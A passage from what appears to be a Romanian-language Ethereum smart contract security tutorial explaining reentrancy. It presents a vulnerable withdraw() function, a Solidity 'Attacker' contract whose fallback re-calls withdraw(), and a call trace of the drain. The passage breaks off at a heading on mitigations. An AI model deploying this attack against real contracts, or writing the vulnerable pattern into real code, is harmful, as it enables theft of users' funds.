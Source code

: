 Pentru a permite unui utilizator să retragă ETH-ul stocat anterior în contract, această funcție

1. Citește valoarea soldului unui utilizator
2. Le trimite valoarea soldului în ETH
3. Resetează soldul la 0, deci nu își mai pot retrage din nou soldul.

Dacă este apelată dintr-un cont obișnuit (cum ar fi propriul tău cont MetaMask), acest lucru funcționează așa cum te aștepți: msg.sender.call.value() pur și simplu trimite contul ETH. Cu toate acestea, contractele inteligente pot efectua și ele apeluri. Dacă un contract personalizat, rău intenționat este cel care apelează `withdraw()`, msg.sender.call.value() nu numai că va trimite `amount` din ETH, va apela implicit și contractul pentru a începe executarea codului. Imaginează-ți acest contract răuvoitor:

```solidity
contract Attacker {
    function beginAttack() external payable {
        Victim(VICTIM_ADDRESS).deposit.value(1 ether)();
        Victim(VICTIM_ADDRESS).withdraw();
    }

    function() external payable {
        if (gasleft() > 40000) {
            Victim(VICTIM_ADDRESS).withdraw();
        }
    }
}
```

Apelarea Attacker.beginAttack() va începe un ciclu care arată ceva de genul:

```
0.) Atacatorul EOA apelează Attacker.beginAttack() cu 1 ETH
0.) Attacker.beginAttack() depozitează 1 ETH în Victimă

  1.) Atacant -> Victim.withdraw()
  1.) Victima citește balanceOf[msg.sender]
  1.) Victima trimite ETH Atacantului (care execută funcția implicită)
    2.) Atacant -> Victim.withdraw()
    2.) Victima citește balanceOf[msg.sender]
    2.) Victima trimite ETH Atacantului (care execută funcția implicită)
      3.) Atacant -> Victim.withdraw()
      3.) Victima citește balanceOf[msg.sender]
      3.) Victima trimite ETH Atacantului (care execută funcția implicită)
        4.) Atacantul nu mai are suficient gaz, se întoarce fără să apeleze din nou
      3.) balances[msg.sender] = 0;
    2.) balances[msg.sender] = 0; (a fost deja 0)
  1.) balances[msg.sender] = 0; (a fost deja 0)
```

Apelul Attacker.beginAttack cu 1 ETH va ataca prin re-intrare Victima, retrăgând mai mult ETH decât a furnizat (luat din soldurile altor utilizatori, cauzând contractul Victimă să devină sub-garantat)

### Cum să te descurci cu re-intrarea (modul greșit) {#how-to-deal-with-re-entrancy-the-wrong-way}
